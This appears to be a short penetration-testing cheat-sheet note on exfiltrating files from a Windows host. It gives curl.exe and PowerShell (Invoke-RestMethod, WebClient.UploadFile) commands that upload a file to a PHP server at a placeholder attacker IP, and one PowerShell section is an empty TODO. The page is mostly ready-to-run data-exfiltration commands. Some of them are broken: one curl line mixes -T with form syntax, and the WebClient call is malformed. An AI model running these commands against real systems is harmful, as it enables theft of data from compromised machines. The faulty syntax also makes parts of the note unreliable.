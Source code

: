 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Upload

After you've setup a [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x05 - File Transfer and Data Exfiltration/Linux/Network Ports/HTTP/Server/Setup#^2d615d|PHP web server]] to exfiltrate files.

## 01 - Command Prompt

```
C:\> curl.exe -F fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

C:\> curl.exe -T fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
```

## 02 - PowerShell

TODO: Fill this info

### 2.1 - `Invoke-WebRequest`

```
PS C:\> 
```

### 2.2 - `Invoke-RestMethod`

```
PS C:\> $body = Get-Content file.txt
Invoke-RestMethod -Uri http[s]://<attacker_IP>[:<PORT>] -Method PUT -Body $body
```

### 2.3 - `UploadFile`

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>[:<PORT>]/upload.php', 'file.txt')
```